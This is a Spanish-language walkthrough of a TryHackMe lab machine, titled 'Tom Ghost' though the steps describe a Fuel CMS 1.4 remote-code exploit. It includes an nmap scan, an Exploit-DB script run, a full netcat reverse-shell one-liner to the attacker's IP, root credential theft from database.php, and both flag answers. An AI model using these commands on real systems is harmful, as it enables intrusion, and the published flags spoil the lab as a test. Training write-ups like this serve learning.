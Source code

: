# Máquina Tom Ghost

Dificultad --> Medio-Dificil 

Instrucciones --> **Para poder resolver esta máquina tienes que registrarte en la página de TryHackMe y buscarla por el nombre de Tom Ghost**


'

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

'

![image](https://github.com/user-attachments/assets/081f2f9e-45ca-4253-8d19-74e8de00e419)


## 1.Reconocmiento

Escaneando puertos y sus versiones utilizando el comando de nmap con diferentes parámetros


![image](https://github.com/user-attachments/assets/c724e1c0-bc4e-4d8e-94b8-73d42dc71cf5)


nmap -sV -sC -T4 10.10.129.220


![image](https://github.com/user-attachments/assets/91a34ad4-87a1-4b51-bb30-dc56b2223575)


![image](https://github.com/user-attachments/assets/c8c1c7b0-af8f-4342-a9d1-26461ad482c2)



### Resumen de la Información Obtenida

|IP               | Sistema OPerativo | Puertos/Servicios           | 
|:--------------: |:-----------------:| :--------------------------:| 
| 10.10.129.220   |Linux- Ubuntu      | 80 http Apache httpd 2.4.18 |


## 2. Análisis de Vulnerabilidades / Debilidades 🔍

Buscamos en nuestra máquina si tenemos un exploit para fuel cms version 1.4


![image](https://github.com/user-attachments/assets/6c14076d-899a-43e8-866b-b77691c223ef)

Buscamos la ruta completa del exploit

    /usr/share/exploitdb/exploits/php/webapps/50477.py

![image](https://github.com/user-attachments/assets/5a09abd7-11cc-4330-aef4-833e38bfe4f2)


Copiamos el exploit en nuestra carpeta de trabajo y lo nombramos fuelcmsexploit.py


![image](https://github.com/user-attachments/assets/03c96bdb-d8a6-42d2-bdc7-acc1e61e210d)


## 3. Explotación 💥

Lo ejecutamos para que nos indique la sintaxis correcta de usarlo


![image](https://github.com/user-attachments/assets/94f652b9-5a4e-4524-ab61-41f5f22e4452)

lo ejecutamos y logramos conectarnos

    python fuelcmsexploit.py -u http://10.10.129.220/


![image](https://github.com/user-attachments/assets/ad271747-8c7e-425b-9f8f-0003976e7370)


Ahora vamos a buscar la manera de conectarnos a través de una reverse shell

![image](https://github.com/user-attachments/assets/b8bc7562-6e15-4f23-8276-5e4f8a628246)


Activamos el netcat en nuestra máquina y procedemos a ejecutar el siguiente comando en la máquina victima

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.86.141 9001 >/tmp/f


![image](https://github.com/user-attachments/assets/bd030730-03df-40b0-b117-c498b89a8ea7)


Ahora ejecutamos el siguiente comando para tener una shell mas interactiva 

    python -c 'import pty; pty.spawn("/bin/bash")’

Nos vamos al directorio del usuario www-data y ahí encontraremos la bandera flag.txt 🚩

6470e394cbf6dab6a91682cc8585059b

![image](https://github.com/user-attachments/assets/aa63e3ec-a1b4-4b97-9e9a-7d215b65f5d5)


## 4. Escalación de privilegios 🧗

Ahora vamos a buscar escalar privilegios, cuando exploramos la pagina conseguimos la ruta de un archivo para la configuración de una base de datos


![image](https://github.com/user-attachments/assets/27b2748a-2bb5-4483-8fc4-9abcb5887931)


Nos iremos moviendo dentro de diferentes directorios hasta llegar donde se encuentra el archivo database.php

![image](https://github.com/user-attachments/assets/9edd09c2-fbd6-4239-afaa-ffa84fffc769)


Ejecutamos el siguiente comando y encontraremos la contraseña del usuario root

    cat database.php

![image](https://github.com/user-attachments/assets/615c8834-be84-45f2-8055-b8c4aa0e3468)


Procedemos a escalar privilegios como usuario root

![image](https://github.com/user-attachments/assets/42696599-144b-4927-b112-6d6ec8fbfb40)


Nos dirigimos a la carpeta root en búsqueda de la segunda bandera

b9bbcb33e11b80be759c4e844862482d


![image](https://github.com/user-attachments/assets/e4b3133b-2a44-406f-ae7e-3e0ff1838575)


## 5.Banderas 🏁

|user.txt | 6470e394cbf6dab6a91682cc8585059b |
|:-------:|:--------------------------------:|
|root.txt | b9bbcb33e11b80be759c4e844862482d |



## 6.Extra 🚨

Acá las respuesta del cuestionario de TryHackMe 

- user.txt

6470e394cbf6dab6a91682cc8585059b

- root.txt

b9bbcb33e11b80be759c4e844862482d


































































































































